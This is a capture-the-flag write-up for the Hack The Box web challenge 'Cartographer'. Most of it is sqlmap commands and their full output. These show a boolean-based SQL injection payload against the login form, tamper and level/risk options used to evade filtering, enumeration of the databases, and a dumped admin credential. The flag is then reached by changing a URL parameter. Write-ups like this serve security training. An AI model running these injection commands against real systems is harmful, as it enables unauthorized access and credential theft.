



# Web Challenge: Cartographer (30 Points)

**Some underground hackers are developing a new command and control server. Can you break in and see what they are up to?**



We have a login page for this challenge and we need to break in. I guess we can use SQL Injection for this challenge.

Let's build our sqlmap command.

```
$ sqlmap -u "http://docker.hackthebox.eu:54683/" --data="username=admin&password=admin" --dbs
```

**-u** - indicates the url of the target website <br>
**--data** - indicates the the data string to be sent through POST <br>
**-dbs** - retrieves the databases <br>

My sqlmap command doesn't work and here's the full message from sqlmap:
```
[CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment')
```

We need to add there parameters, ```-level```, `--risk`, and `--tamper`.

Let's re-build our sqlmap command and execute.

```
$ sqlmap -u "http://docker.hackthebox.eu:54683/" --data="username=admin&password=admin" --dbs --level=5 --risk=3 --tamper=space2comment
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.4#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:33:05

[16:33:05] [INFO] loading tamper script 'space2comment'
[16:33:05] [INFO] testing connection to the target URL
[16:33:06] [INFO] testing if the target URL content is stable
[16:33:06] [INFO] target URL content is stable
[16:33:06] [INFO] testing if POST parameter 'username' is dynamic
[16:33:07] [WARNING] POST parameter 'username' does not appear to be dynamic
[16:33:07] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[16:33:07] [INFO] testing for SQL injection on POST parameter 'username'
[16:33:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
sqlmap got a 302 redirect to 'http://docker.hackthebox.eu:54683/panel.php?info=home'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[16:34:30] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[16:35:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[16:35:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Generic comment)'
[16:36:02] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Generic comment)'
[16:36:27] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Generic comment) (NOT)'
[16:36:54] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:37:12] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[16:37:15] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="Is")
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[16:37:22] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[16:37:22] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[16:37:28] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[16:37:34] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[16:37:41] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[16:37:47] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[16:37:53] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[16:37:59] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[16:38:06] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[16:38:12] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[16:38:18] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[16:38:24] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[16:38:24] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 852 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-3755' OR 9186=9186#&password=admin
---
[16:38:50] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[16:38:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL Unknown
[16:38:50] [INFO] fetching database names
[16:38:50] [INFO] fetching number of databases
[16:38:50] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[16:38:50] [INFO] retrieved: 5
[16:38:54] [INFO] retrieved: information_schema
[16:39:48] [INFO] retrieved: cartographer
[16:40:22] [INFO] retrieved: mysql
[16:40:37] [INFO] retrieved: performance_schema
[16:41:28] [INFO] retrieved: sys
available databases [5]:
[*] cartographer
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

[16:41:37] [INFO] fetched data logged to text files under '/Users/aj/.sqlmap/output/docker.hackthebox.eu'

[*] shutting down at 16:41:37
```

So we finally got the databases of the website. Next step is to dump all the data from cartographer database.

```
Database: cartographer
Table: users
[1 entry]
+----------+------------------------------+
| username | password                     |
+----------+------------------------------+
| admin    | mypasswordisfuckinawesome123 |
+----------+------------------------------+
```

Now that we have the username and password, let's now access the website.



The page says `Cartographer Is Still Under Construction!` and the URL is `http://docker.hackthebox.eu:54683/panel.php?info=home`

Maybe there's something in the source code? A comment? Let's try..

```html
<html>
<head>
    <title>Cartographer - Panel</title>
    <link rel='stylesheet' href='style.css' type='text/css' />
</head>
<body>
    <div class="content-container">
        <div class="blur"></div>
    </div>
    <div class="loginform">
        <center>
            <br><br>
            <br>Cartographer<br>Is Still<br>Under Construction!
        </center>
    </div>
</body>
</html>
```

Okay.. Nothing interesting with the source code. Then I just tried changing the value of info parameter from `home` to `flag` and poof, the flag suddenly appears on the page.


